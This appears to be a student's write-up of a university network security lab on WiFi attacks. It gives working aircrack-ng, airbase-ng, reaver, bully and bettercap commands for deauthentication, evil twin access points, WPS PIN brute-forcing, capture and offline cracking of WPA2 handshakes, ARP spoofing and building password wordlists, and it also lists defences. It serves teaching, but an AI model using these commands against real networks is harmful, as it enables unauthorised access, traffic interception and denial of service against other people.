

# Exercise 1 - Wardriving 

• Can you see the signals our routers are emitting? Yes, for all the routers running here 

• What kind of networks did you see? Bluetooth devices and WiFi routers 

• Can you identify the security policies they implement? Categorization of security policies: red are `Open WiFi`, yellow are `WEP/WPS` and green are `WPA2`

• Networks of the Pineapples are detected as names with "NetSecLab", using `WPA2-PSK` for **management** networks and `Open` for the unsecured ones. 

• Multiple networks with the same name (SSID) but different MAC addresses (BSSID) are used by networks attempting to cover a large area. This is because several physical devices are used to give access to same underlying network. Client devices are then able to roam and automatically switch between the two physical transmitters based on signal strength. -> `eduroam` and `DTUsecure` networks

# Exercise 2 - Open WiFi
    
Connection to Pineapple Router using browser at `http://172.16.42.1:1471` or via SSH `ssh root@172.16.42.1` with the password: `root`.

On a device with `WLAN` capability enable the promiscuous/monitor mode using `airmon-ng start <interface=wlan0>` to capture traffic in transit

Alternatives for monitoring traffic `nmap` or `airodump-ng` - can sniff network BSSIDs and their clients

```bash
# Kill processes that interfere with putting an antenna/interface in monitor mode
airmon-ng check kill
# Start monitoring mode in wlan1 interface
airmon-ng start wlan1
# Monitor nearby networks
airodump-ng -c 10 wlan1mon --write bssids.txt
```

* Connect to the Open WIFI network and start Wireshark to capture the traffic (sniff on the interface “wlan0”) - alternatively use command `airodump-ng wlan0` Can you see any issue with
the ongoing traffic?

    MacOS solution: command `airport en0 sniff 10` - capture network traffic

    On an `Open` wireless network, in monitoring mode one can see the ongoing unencrypted traffic including for other hosts on the network. Once could perform a MitM attack and sniff/expose user credentials like below:

    `arp -a` - display the ARP table

    

* De-authentication attack on **selected targets**. The most simple use is denial of service attack, but also it can be used to force victims to install malicious software - for target BSSID and client, we can flood the router with de-authentication messages pretending to be the client. The re-authentication process is rather fast and difficult to catch for the naked eye - estimation whether the victim has been de-authed
 

    Put network device into monitor mode:
    `airmon-ng start wlan0`

    Run the monitoring tool from Pineapple: `airodump-ng wlan1mon` - listen to all nearby beacon frames to get target device BSSID & channel

    Track the ongoing traffic of a specific target: `airodump-ng -c 11 --bssid <target=xx:xx:xx:xx> -d -w file.pcap wlan1mon` - start listening for the handshake

    De-authenticate connected client target with command : `aireplay-ng --deauth 30 -b BSSID -C` or `aireplay-nh -0 2 -a <target=xx:xx:xx:xx> -c xx:xx:xx:xx wlan1mon` - in order to force a handshake sniffing

    ```bash
    # Start aireplay to deauthenticate our victim until we stop the program. To see if this is working, some of the output lines should have a high number between the brackets [XX|64], this indicates that some of the deauth requests have been accepted.

    aireplay-ng --deauth 0 -c <Target MAC> -a <AP BSSID> wlan1mon
    ```

* Reconnect victim to our own Access Point (AP), part of the "Evil Twin" attack, which is essentially a Man in the Middle (MITM) attack, giving the attacker access to all the traffic in transit. 

    The "own" hotspot or Access Point (AP) can be created using `airbase-ng` tool. An existing BSSID (MAC) and ESSID (name) can be copied, creating an Evil Twin in the process.

    ```bash
    # Start the evil twin AP
    airbase-ng -a <BSSID> --essid <ESSID> -c 1 wlan1mon
    # Tune up the signal power to 20dBm - legal 2.4 GHz
    iwconfig wlan1mon txpower 20
    ```

* Having temporarily de-authenticated a victim, one can push it to reconnect to their own AP. This is part of an “Evil Twin” attack, which is essentially a Man in the Middle (MITM) attack, giving the attacker access to all the traffic in transit. There are many ways to do this, but the simplest one is to create an AP with the same name as the original one and see if the victim connects to it.

    * Can you list two or three scenarios where this can be dangerous?
        
        1. **Eavesdropping on financial transactions**: intercept sensitive information like login credentials, account numbers and transaction details - unauthorized access to bank accounts, financial fraud

        2. **Confidential Communication** - Evil Twin attack can expose confidential communications and data - leakage of trade secrets, sensitive personal data, exposure of confidential sources

        3. **Credential Theft** - login activities carried over compromised network can be intercepted, can provide attackers with a foothold into more secure systems for further attacks -> `spear phishing campaign`

        Open networks are generally risky since anybody can access them and even sniff the ongoing traffic. This can lead to **impersonation attacks, replay attacks, stealing credentials, packet injection and packet manipulation attacks**. The BSSID, ESSID and other AP details can easily be spoofed to obligate devices to join rogue APs.


    * What happens with encrypted connections?
        
        > Connections secured by encrypted protocols like `HTTPS` pose difficulties for attackers to directly access the content of traffic. Interception can be made possible by downgrading the connection to an unencrypted state using phishing attacks (redirect victims to fake login pages) or `SSL` stripping techniques (`sslstrip` attacks)

        > When a client connects to an Evil Twin, the attacker has access to all the ongoing traffic - allowing for manipulated requests, re-negotiated cryptos, transit data decryption and redirection to malicious sites

    * What can one do to make the evil twin method more reliable?
        Attackers can block access to the original network and offer the Evil Twin as an alternative

        > **Increase signal strength**: ensure malicious AP has a stronger signal than the legitimate one - increase chance devices connect to it automatically

        > **Spoofing MAC addresses**: mimicking the MAC address of the legitimate access point AP and make `Evil Twin` appear more convincing

        > **HSTS Bypass Technique**: bypass HTTP strict transport security (HSTS) to circumvent protections against SSL stripping

    * What can victims do to prevent connecting to an evil twin?

        > **Virtual Private Network (VPN)** - encrypt all traffic from a device (app layer) regardless of connection security (Evil Twin AP) - pipe communications through VPNs for improved security
        
        > **Enable Network Notifications** - set devices to notify users before connecting to new networks being cautious and verifying the network against malicious APs

        > **Avoid Automatic Connections** - disable settings that allow devices to connect automatically to known networks - prevent unintentional connections to networks with the same SSID as the trusted network

        > **Increased Awareness** - caution when using WiFi networks during travel - conducting sensitive transactions. **Avoid** connecting to public, insecure or untrusted network. 
        
        While password-protected networks are not a definitive solution, the goal is to mitigate the likelihood of connecting to a rogue AP. Protected networks are more difficult to replicate since they require the attacker to know the password; yet again, this is feasible, and a dedicated attacker will go through the hassle.

# Exercise 3: WPS and WPA2-PSK

**Exploit WPS protocol** using tools. WPS is a feature in Wi-Fi routers that allows users to get easy access to the router without the need for a passphrase. The attack we will use is a variant of “Pixie Dust”, which is implemented in multiple tools such as “Reaver” 

WPS Online Brute-force Attack ~ 11k tries: idea to bruteforce `PSK1` and then `PSK2` - command `bully mon0 -b <target=XX:XX:XX:XX>`

Alternative Reaver attack: `reaver --interface=wlan1mod --bssid=<mac_target_AP> --essid=<ssid> --delay=<seconds>` on the WPS router provided

Use Reaver to find `WPS` pin allowing connection to network - successful tries against target as output:
```bash
# Install reaver
opkg update && opkg install reaver --dest sd
# Attack the WPA network with reaver
reaver -i wlan1mon -c 1 -b <AP BSSID> -vv
```

**Cracking WPA2 passphrases** - Next, we will force our way into the network by cracking the WPA2 passphrases. NOTE: Nowadays, the majority of Wi-Fi auditing tools come with cracking methods for all of these protocols.

* Find `WPA2-PSK` protected network to target:

    `airodump-ng -c <channel=10> wlan1mon --write bssids.txt`

* Find client connected to target network (phone). In parallel, start to capture the 4-way authentication handshake packets and de-authenticate the victim. This will force it to reauthenticate into the AP, giving access to the handshake:

    > Using two terminals, one started listening for clients connecting to the BSSID chosen and the second to de-authenticate a victim for a while - will cause constant re-authentication and ability to capture handshakes

    ```bash
    # Capture clients in the target network and write to a file named psk
    airodump-ng -c 10 --bssid <BSSID> -w psk wlan1mon
    # Deauthenticate some client
    aireplay-ng --deauth 0 -a <BSSID> -c <Victim> wlan1mon
    ```

* Offline crack the password for the network using command `aircrack-ng` with packets captured and a wordlist

    > Crack the password offline with help of a dictionary (list of words)

    ```bash
    # Using the captured handshakes, attempt to crack the network offline using a dictionary. Note: You will need a list of passwords/dictionary/table for this to work. 
    aircrack-ng -w password.lst -b <BSSID> psk*.cap
    ```

# Chuck Attacks:

## Noob - ARP spoofing

Reconnaissance:
`sudo bettercap -iface wlan0` with `net.probe on` - scan the WiFi network and find targets

`net.show` - see what was found (a target)

Man-in-the-Middle attack: 

* ARP spoofing + establish two connections that seem to function normally

    `set arp.spoof.fullduplex true` - set up ARP
    `set arp.spoof.targets 192.168.0.1` - specify target
    `arp.spoof on` - activate spoofing

**VPN protects against it with encryption!**

## Hipster - Evil Twin attack

**Flipper Zero** tool

Evil twins are essentially creating an invisible  access point with the same SSID as your legitimate one

Webpage pops-up before connection and authenticate with some credentials

Credentials can be exposed/eavesdropped

As target the Evil Twin will provide no internet so you can disconnect

Alternative create fake `Evil Twin`: `vim hostapd.conf` and replicate WiFi network settings/details

Perform de-auth attacks using **Flipper Zero**

## Pro - WiFi Pineapple Enterprise

Scan for reconnaissance and create Evil Twins for targets

Make you connect to an ESSID automatically as the phone remembers the previous hosts

Pineapple is listening for probes for known WiFi networks from devices

* Can eventually spoof the DNS - impersonate DNS server => leads to fake webpages

Everything can be protected by `VPN` as it encrypts all traffic to everywhere

Capture handshakes by de-authenticating a network or certain clients through the Pineapple UI

## Hacker cracking a WiFi password:

* `sudo airmon-ng wlan0 start` - put network adapter into monitor mode to listen instead of connecting to networks around

* `iwconfig` - make sure it is running

* `sudo airmon-ng check kill` - check and kill processes that interfere with the monitor adapter

* `sudo airdump-ng wlan0 -abg` - monitor all types of wireless channels --> identify the target wireless network 

* `sudo airodump-ng -bssid mac=0X:X0:X0:00:XX:XX: -c 2 wlan0` - MAC address of station and the channel on which it operates --> listen in and capture waiting for the 4-way handshake with a connecting device

* De-authentication attack - make device lose connection - impersonate `deauth` messages as coming from the real router

* `sudo aireplay-ng -0 0 -a mac_router=0X:X0:X0:00:XX:XX: wlan0` - checking for `EAPOL` message and then stop it, capturing into a file

* From the files with the 4-way handshake one can brute-force the password by guessing using wordlist - big bag of keys/passwords ex. `rockyou` using the command 

`sudo aircrack-ng -w rockyou.txt 4handshake.pcap`


### Alternative
`sudo cewl shop.com -w shop_wordlist.txt` - crawl the website of the location/shop and record all the keywords that might be used in a password


> Look through `wordlist` to search for keywords that might be used in a password
```bash
sudo pipal shop_wordlist.txt | grep -A 10 "Top 10 passwords" | tail -n +2 | awk  -F '=' '{print $1}' | tr 'A-Z' 'a-z' > top_10passwords.txt
```

`tr 'A-Z' 'a-z'` - lowercases the strings

With a Python script - combine words in all possible ways and then `CRACK!` - higher chances of finding the password - **profiling technique**